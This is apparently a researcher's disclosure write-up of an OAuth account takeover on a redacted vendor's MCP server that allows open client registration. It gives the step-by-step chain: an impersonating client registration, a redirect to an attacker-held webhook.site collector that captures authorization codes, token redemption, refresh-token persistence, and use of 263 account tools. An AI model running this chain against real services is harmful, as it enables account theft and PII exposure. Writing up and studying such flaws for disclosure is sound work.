










# MCP OAuth Account Takeover via Open Dynamic Client Registration

I was reading the MCP (Model Context Protocol) spec and wondering what happens when an MCP server implements OAuth. The answer, in this case, was: everything breaks.

## The Discovery

The target's MCP server at `mcp.<redacted>.com` was found in the vendor's documentation (MCP integration guide). I probed the standard OAuth discovery endpoint:

```
GET https://mcp.<redacted>.com/.well-known/oauth-authorization-server
```

The server returned a JSON metadata document (RFC 8414) with the following fields:

```json
{
  "issuer": "https://mcp.<redacted>.com",
  "authorization_endpoint": "https://mcp.<redacted>.com/authorize",
  "token_endpoint": "https://mcp.<redacted>.com/token",
  "registration_endpoint": "https://mcp.<redacted>.com/register",
  "response_types_supported": ["code"],
  "grant_types_supported": ["authorization_code", "refresh_token"],
  "token_endpoint_auth_methods_supported": [
    "client_secret_basic",
    "client_secret_post",
    "none"
  ],
  "code_challenge_methods_supported": ["plain", "S256"]
}
```

The `registration_endpoint` field pointed to `/register` — and there was no mention of an initial access token requirement or software statement validation. I sent a registration request to that endpoint with no authentication, no token, no approval. The server responded with `201 Created` and a client ID.

The registration payload used standard RFC 7591 fields:

```json
{
  "client_name": "<redacted> Dashboard",
  "redirect_uris": ["https://webhook.site/<collector_id>"],
  "token_endpoint_auth_method": "none"
}
```

- `client_name`: "<redacted> Dashboard" (impersonating the vendor's own product)
- `redirect_uris`: a webhook collector URL I controlled
- `token_endpoint_auth_method`: "none" (public client, no secret required at the token endpoint)

No initial access token. No software statement. No email confirmation. No rate limit. Just a 201.



The metadata also told me how to build the victim link: the `authorization_endpoint` value (`https://mcp.<redacted>.com/authorize`) plus `response_type=code` (from `response_types_supported`) plus the `client_id` returned from registration plus the `redirect_uri` I had registered.

## The Chain

**Step 1 — The victim link.** The metadata document gave me the `authorization_endpoint` URL. I combined it with `response_type=code` (from `response_types_supported`), the `client_id` returned from registration, and the `redirect_uri` I had registered:

```
https://mcp.<redacted>.com/authorize?response_type=code&client_id=<client_id>&redirect_uri=<webhook_collector>
```

**Step 2 — The consent screens.** When a logged-in user opens that link, they land on the real `mcp.<redacted>.com` domain. The consent page displays the attacker-chosen name ("<redacted> Dashboard") with no "unverified third-party app" warning. The user clicks Approve.



They're redirected to `www.<redacted>.com/oauth/authorize` — another real domain, another real consent screen. This one enumerates the scopes being granted: Accounts, Agents, Applications, Brands, Campaigns, Catalogs, Conversations, Coupon Codes, Custom Objects, Data Privacy, Events, Flows, Metrics, Profiles, Push Tokens, Reviews, Segments, Sender Configuration, Subscriptions, Tags, Templates, Tracking, Translations, Usage, Web-Feeds, Webhooks. The user clicks Allow.




**Step 3 — Code delivery.** The browser redirects to the registered redirect URI — the attacker's webhook collector. The authorization code arrives as a query parameter: `?code=<code>&iss=https://mcp.<redacted>.com`.



**Step 4 — Token redemption.** The metadata document gave me the `token_endpoint` URL. I exchanged the code for tokens with a single POST using standard OAuth 2.0 authorization code grant parameters (RFC 6749 §4.1.3):

```
POST https://mcp.<redacted>.com/token
Content-Type: application/x-www-form-urlencoded

grant_type=authorization_code
code=<code>
client_id=<client_id>
redirect_uri=<webhook_collector>
```

No client secret. The response: `200 OK` with `access_token`, `token_type: "bearer"`, `expires_in: 3600`, and `refresh_token`.



**Step 5 — Persistence.** The refresh grant mints new tokens indefinitely:

```
grant_type=refresh_token
refresh_token=<refresh_token>
client_id=<client_id>
```

`200 OK` with a new access token and a new refresh token. The old refresh token is invalidated (rotation is implemented correctly), but the attacker simply uses the new one. From the victim's perspective, there is no self-service UI to view or revoke the issued grant.

**Step 6 — God mode.** With the access token, I opened an MCP session:

- `initialize` → `200 OK`, server identifies as "<redacted> MCP Server"
- `tools/list` → `200 OK`, 263 tools available
- `tools/call get_lists` → `200 OK`, real account data returned (actual list names, IDs, creation timestamps)





The 263 tools include, among others:

- `get_profiles` / `get_profile` — customer PII reads
- `send_campaign`, `update_campaign`, `delete_campaign` — send/modify/delete campaigns as the account
- `bulk_suppress_profiles`, `request_profile_deletion` — data-privacy operations (GDPR-relevant)
- `create_customer_agent_response`, `create_agent_tool`, `update_customer_agent` — full control of the Customer Agent (AI)
- `upload_image_from_url` — server-side URL fetching

## Why It Works

The vulnerability is not in the consent flow, the token exchange, or the redirect URI check — each works correctly in isolation. The vulnerability is that open registration lets an attacker supply the inputs those correct mechanisms trust.

Think of it like an apartment building with a front desk. The front desk only gives keys to registered tenants. But the building also has a service: anyone can register a new tenant at the front desk, no ID required. When you register, you choose your own name and your own mailbox address. So when someone knocks and says "I'm <redacted> Dashboard, give me the keys," the front desk says yes — because the name and mailbox are on file.

The consent screens are real. The domains are real. The TLS certificates are real. The only foreign element is the registration metadata, and the server trusts that metadata completely.

Two details make the consent even less meaningful:

1. The consent page shows only the client name and redirect URI — it never enumerates the scopes or capabilities being granted. The user approves "requesting access" with no indication they are conferring 48 API scopes across 263 tools.
2. After approval, the victim has no self-service UI to view or revoke the issued grant. The attacker's refresh token renews access indefinitely.

## Disclosure Status

Reported to the vendor's bug bounty program. Triaged as **duplicate** (P4) — the same issue was reported by another researcher. No bounty awarded.



## Resources

- RFC 7591: OAuth 2.0 Dynamic Client Registration Protocol — https://datatracker.ietf.org/doc/html/rfc7591
- RFC 7591 §5: Client Information Validation — https://datatracker.ietf.org/doc/html/rfc7591#section-5
- PortSwigger: OAuth authentication — https://portswigger.net/web-security/oauth
- OWASP: OAuth 2.0 Security Best Current Practice — https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics
